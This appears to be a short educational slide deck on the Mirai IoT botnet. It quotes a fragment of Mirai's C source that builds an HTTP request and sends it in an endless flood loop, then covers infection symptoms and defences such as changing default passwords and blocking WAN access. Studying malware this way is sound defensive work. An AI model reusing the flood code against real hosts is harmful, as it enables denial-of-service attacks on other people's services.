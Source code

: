 
-------------------------------------------------

-> # Mirai <-

-> ## attacks!? <-

~~~ {.numberLines}
util_strcpy(buf + util_strlen(buf), conn->method);
util_strcpy(buf + util_strlen(buf), " ");
util_strcpy(buf + util_strlen(buf), conn->path);
util_strcpy(buf + util_strlen(buf), " HTTP/1.1\r\nUser-Agent: ");
util_strcpy(buf + util_strlen(buf), conn->user_agent);
util_strcpy(buf + util_strlen(buf), "\r\nHost: ");
util_strcpy(buf + util_strlen(buf), conn->domain);
util_strcpy(buf + util_strlen(buf), "\r\n");

while(TRUE) {
    ...
    send(conn->fd, buf, util_strlen(buf), MSG_NOSIGNAL);
    conn->last_send = fake_time;

    conn->state = HTTP_CONN_RECV_HEADER;
}
~~~~~~~~~~~~~~~~~~

-------------------------------------------------

-> # Mirai <-

-> ## vulnerability and prevention <-

* device keeps running normal...
    - with sluggishiness&larger band use
<br>
* code is kept on RAM
    - deletes itself from the disk
    - solution: turn off the device?
        + may be reinfected in a few minutes (too widespread)

-------------------------------------------------

-> # Mirai <-

-> ## vulnerability and prevention <-

* 68 username-password pairs
    - avoid using default passwords
<br>
* don't let WAN access the device
<br>
* use a tool to scan ports
    - SSH, telnet, HTTP&HTTPs
    - ports 22, 23, 80, 443

-------------------------------------------------

-> # questions? <-
<br>

-> ## thank you! <-

-------------------------------------------------
